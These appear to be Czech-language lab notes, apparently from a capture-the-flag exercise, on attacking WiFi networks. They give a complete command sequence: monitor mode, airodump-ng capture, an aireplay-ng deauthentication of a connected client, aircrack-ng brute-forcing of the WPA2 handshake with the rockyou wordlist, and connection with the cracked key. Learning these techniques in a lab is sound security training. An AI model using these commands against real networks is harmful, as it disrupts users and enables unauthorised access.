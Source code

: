 # Day 11 - WiFi attacks

SSID = název wifi

PSK (preshared key) = heslo

BSSID = MAC\


**Evil Twin attack** = škodlivá wifi s téměř podobným SSID

**Rogue AP** = škodlivá WiFi poblíž organizace bez hesla

**WPS attack** = odchycení WPS handshaku obsahující údaje o PINu

**WPA/WPA2 cracking** = základem de-autentizace (odpojení od sítě) a odchycení 4 way handshaku při opětovném \


```shell-session
glitch@wifi:~$ iw dev #vypíše bezdrátové síťové karty
glitch@wifi:~$ sudo iw dev wlan2 scan #scan okolních wifi sítí
```

RSN (Robust Security Network) = indikace přítomnosti WPA2

```shell-session
glitch@wifi:~$ sudo ip link set dev wlan2 down
glitch@wifi:~$ sudo iw dev wlan2 set type monitor
glitch@wifi:~$ sudo ip link set dev wlan2 up
```

Nastaví monitoring&#x20;

```shell-session
glitch@wifi:~$ sudo airodump-ng wlan2 #zapne odchyt, vrátí informace o tom na jakém kanálu naslouchá SSID

```

```shell-session
glitch@wifi:~$ sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
```

Vráti informaci o připojených stanicích (-c KANÁL)&#x20;

```shell-session
glitch@wifi:~$ sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
```

V druhém terminálu pošleme deauth na připojenou stanici (-0 = deauth, 1 počet deauth, -a BSSID AP, \
-c DEAUTH BSSID)

```shell-session
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
```

Po odchycení handshake bruteforce (-a WPA2, -b BSSID AP, -w wordlist)

```shell-session
glitch@wifi:~$ wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2
```

Připojení
